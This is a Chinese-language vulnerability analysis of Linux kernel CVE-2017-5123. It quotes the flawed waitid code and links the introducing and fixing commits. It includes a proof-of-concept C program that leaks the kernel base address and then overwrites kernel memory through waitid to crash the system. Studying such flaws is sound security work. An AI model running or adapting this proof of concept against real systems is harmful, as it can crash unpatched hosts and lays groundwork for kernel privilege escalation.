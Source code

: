# CVE-2017-5123 的分析实验
## 简述
CVE-2017-5123 的利用实现包括两个环节：
1. waitid 调用 usercopy，泄漏内核的基址
2. waitid 调用 unsafe_put_user 没有调用 access_ok，会导致任意写

## waitid 问题代码
```  
SYSCALL_DEFINE5(waitid, int, which, pid_t, upid, struct siginfo __user *,
		infop, int, options, struct rusage __user *, ru)
{
	struct rusage r;
	struct waitid_info info = {.status = 0};
	long err = kernel_waitid(which, upid, &info, options, ru ? &r : NULL);
	int signo = 0;
	if (err > 0) {
		signo = SIGCHLD;
		err = 0;
	}

	/* infoleak 将 rusage 结构体复制到用户空间
	 * 用户空间在这个结构体里搜寻，获取指针并掩码就能得到内核基址
	 */
	if (!err) {
		if (ru && copy_to_user(ru, &r, sizeof(struct rusage)))
			return -EFAULT;
	}
	if (!infop)
		return err;

	/* 这里没有调用 access_ok 检查，导致任意内存写
	 * 注意，这里可以直接传递内核空间的指针
	 * 需要涂抹的地址可以透过偏移量加上内核基址得到	
	 */
	user_access_begin();
	unsafe_put_user(signo, &infop->si_signo, Efault);
	unsafe_put_user(0, &infop->si_errno, Efault);
	unsafe_put_user((short)info.cause, &infop->si_code, Efault);
	unsafe_put_user(info.pid, &infop->si_pid, Efault);
	unsafe_put_user(info.uid, &infop->si_uid, Efault);
	unsafe_put_user(info.status, &infop->si_status, Efault);
	user_access_end();
	return err;
Efault:
	user_access_end();
	return -EFAULT;
}

```  
下面是一下信息：
引入：https://git.kernel.org/linus/4c48abe91be03d191d0c20cc755877da2cb35622
修复：https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=96ca579a1ecc943b75beba58bebb0356f6cc4b51
关于 unsafe_put_user 的讨论：https://lwn.net/Articles/736348/
spender 的 infoleak poc：https://grsecurity.net/~spender/exploits/wait_for_kaslr_to_be_effective.c
up201407890 的 pochttp://seclists.org/oss-sec/2017/q4/134

## POC 简述
[完整版用主线 4.13 内核测试过]（CVE-2017-5123_poc.c)
```  
int main(void)
{
	int pid;
	struct rusage rusage = { };
	unsigned long *p, *crash;
	char *selinux_enforcing, *selinux_enabled;
	pid = fork();

	if (pid > 0) {
        /* 调用 waitid 获取 rusage */
        syscall(__NR_waitid, P_PID, pid, NULL, WEXITED|WNOHANG|__WNOTHREAD, &rusage);
		printf("Leak size=%d bytes\n", sizeof(rusage));
        	/* 搜寻泄漏的 rusage 内存块，寻找内核指针，算出内核基地址 */
		for (p = &rusage;
		     p < (unsigned long *)((char *)&rusage + sizeof(rusage));
		     p++) {
			if (*p > 0xffffffff00000000 && *p < 0xffffffffff000000) {
			  printf("Found kernel base=%p\n", (void*)(*p&0xffffffffff000000));
				break;
			}
		}

		printf("Crash start!\n");
        	/* 调用 waitid， 利用 waitid 未进行 access_to 就对传入指针进行写操作
         	 * 我们这里从算出的内核基址开始，盲目的去覆写内核内存导致 crash 
		 */
		for(crash = (siginfo_t*)*p;
		    crash <= 0xffffffffff000000;
		    crash++){
		  syscall(__NR_waitid, P_PID, pid, crash, WEXITED|WNOHANG|__WNOTHREAD, NULL);
		  printf("Overwrite kernel memory=%p\n", crash);
		}
		
		if(p < (unsigned long *)0xffffffff00000000 || p > (unsigned long *)0xffffffffff000000)
		  exit(-1);
       	} else if (pid == 0) {
		sleep(1);
		exit(0);
	}

	return 0;
}

```  


